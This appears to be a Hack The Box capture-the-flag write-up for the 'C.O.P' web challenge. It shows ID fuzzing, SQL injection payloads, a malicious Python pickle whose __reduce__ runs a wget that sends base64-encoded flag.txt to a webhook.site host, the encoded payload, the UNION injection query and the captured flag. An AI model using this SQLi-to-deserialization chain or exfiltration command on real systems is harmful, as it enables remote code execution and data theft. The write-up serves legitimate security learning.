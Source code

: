 ```yaml
---
title: C.O.P
image:
    path: /assets/images/ascwg.jpg
date: 2023-10-06 20:00:00 +0800
categories: HTB
description: "The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!"
tags: []
toc: true
---
```




# C.O.P

---

# Enumeration

## Manual Enumeration

- there is no interesting thing on the home page and not many functionalities, let’s start fuzzing the website to find any juicy point while we explore its functions manually.

![Untitled](/assets/images/COP/Untitled.png)

- we can view products using their id using `http://<IP>:<port>/view/<product_id>`

## Fuzzing the website

- A quick fuzzing with common.txt doesn't show anything interesting

![Untitled](/assets/images/COP/Untitled%201.png)

## Fuzzing Products

- Using the information I found earlier that I can see products using the link `/view/<Product ID >` I could fuzz to identify all the products may I find anything useful

```bash
 for id in {-1000..1000}; do echo $id ; done | ffuf -u 'http://144.126.230.162:31693/view/FUZZ' -w - -c -fc 500
```

![Untitled](/assets/images/COP/Untitled%202.png)

- As we can see, there are no other pages
- From Here I start thinking to go the other way and read the source code

## Reviewing the Source Code

- let’s check the source code

![Untitled](/assets/images/COP/Untitled%203.png)

![Untitled](/assets/images/COP/Untitled%204.png)

The developer made a big mistake here the `product_id`  passed directly to the SQL query this leads to  SQL injection and according to our privileges we can

---

# SQL Injection

- when viewing a product the query executed without any input validation
- `http://144.126.230.162:31693/view/2'%20OR%201%20=%202%20--%20-`

![Untitled](/assets/images/COP/Untitled%205.png)

`http://144.126.230.162:31693/view/2'%20OR%201%20=%202%20--%20-`

![Untitled](/assets/images/COP/Untitled%206.png)

- the website is vulnerable to SQLi, we can confirm it by comparing the two images.
- In the first image, we injected this payload `2' OR 1 = 1 -- -`, (It’s not the best payload because if there is any firewall it will block the request, but it’s just a simple PoC), the first product in query result was product 1 (Pickle Shirt), not product 2 because the query is always true (1=1) `SELECT data FROM products WHERE id='2' or 1=1 -- -’`
- in the second image, we inject this payload `2' OR 1 = 2 -- -` which makes the condition false so the query result should be the second product, which is (Pickle Shirt 2), so it’s a valid SQLi
- After running sqlmap to exploit SQLi and dump the database, nothing interesting found

---

# Insecure Deserialization

- we noticed that the app usewe noticed that the app uses pickles pickle

![Untitled](/assets/images/COP/Untitled%207.png)

![Untitled](/assets/images/COP/Untitled%208.png)

- this snippet displays all the products by looping over the products list and setting the variable `item` to the `product.data` attribute which is a pickle object so is passed to `pickle` filter defined [here](https://www.notion.so/C-O-P-d535069fbda84ec095a8e1ca47483297?pvs=21), and uses the `item` to display the product information such as its name
- we already know that the app is vulnerable to SQLi, so we can inject a malicious product to exploit insecure deserialization.

![Untitled](/assets/images/COP/Untitled%209.png)

```python
import pickle
import os
from base64 import b64encode, b64decode

class Evil(object):
    def __reduce__(self):
        return (os.system,("wget https://webhook.site/cdf3f8e3-8751-41a2-91ec-40ca7a9a8679/$(cat flag.txt | base64)",))

e = Evil()
payload = b64encode(pickle.dumps(e))
print(payload.decode())
```

- code Explanation
    1. Importing Required Modules:
        - The code imports the necessary modules: **`pickle`**, **`os`**, and **`b64encode`** and **`b64decode`** from the **`base64`** module.
    2. Defining the **`Evil`** Class:
        - The **`Evil`** class is defined, which inherits from the **`object`** class (implicitly).
        - The **`Evil`** class overrides the **`__reduce__()`** method.
        - The **`__reduce__()`** method is a special method used by **`pickle`** for serialization and deserialization.
        - In this case, the **`__reduce__()`** method is defined to return a tuple containing the function **`os.system`** and command as a string.
    3. Creating an Instance and Generating Payload:
        - An instance **`e`** of the **`Evil`** class is created.
        - The **`pickle.dumps()`** function is called with **`e`** as an argument to serialize the object.
        - The resulting serialized object is then encoded using **`b64encode()`** from the **`base64`** module to obtain a Base64-encoded payload.
    4. Printing the Payload:
        - The Base64-encoded payload is printed using **`print(payload.decode())`**.

The intention behind this code is to generate a payload that, when deserialized by a vulnerable or unsuspecting application, will execute the command specified in the **`__reduce__()`** method. In this case, the command is a **`wget`** command that downloads a file (**`flag.txt`**) and sends it to a specific URL (**`https://webhook.site/cdf3f8e3-8751-41a2-91ec-40ca7a9a8679/`**).

```bash
┌──(juba㉿juba-kali)-[~/egypt-parttime/C.O.P]
└─$ python exploit.py
gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFd3Z2V0IGh0dHBzOi8vd2ViaG9vay5zaXRlL2NkZjNmOGUzLTg3NTEtNDFhMi05MWVjLTQwY2E3YTlhODY3OS8kKGNhdCBmbGFnLnR4dCB8IGJhc2U2NCmUhZRSlC4=
```

- the query after injecting the payload will be the following

```bash
SELECT data FROM products WHERE id='' UNION SELECT 'Malicious Pickle Object' -- -'
```

![Untitled](/assets/images/COP/Untitled%2010.png)

![Untitled](/assets/images/COP/Untitled%2011.png)

# flag.txt

```bash
HTB{n0_m0re_p1ckl3_pr0paganda_4u}
```

![Untitled](/assets/images/COP/Untitled%2012.png)

[https://www.hackthebox.com/achievement/challenge/664097/395](https://www.hackthebox.com/achievement/challenge/664097/395)
